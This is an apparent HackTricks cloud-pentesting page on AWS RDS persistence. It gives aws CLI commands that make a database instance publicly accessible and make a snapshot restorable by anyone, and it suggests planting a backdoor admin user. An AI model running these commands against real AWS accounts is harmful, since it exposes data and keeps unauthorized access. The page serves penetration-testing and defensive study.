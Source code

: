 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

For more information check:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Make instance publicly accessible: `rds:ModifyDBInstance`

An attacker with this permission can **modify an existing RDS instance to enable public accessibility**.

```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```

### Create an admin user inside the DB

An attacker could just **create a user inside the DB** so even if the master users password is modified he **doesn't lose the access** to the database.

### Make snapshot public

```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```

{{#include ../../../banners/hacktricks-training.md}}






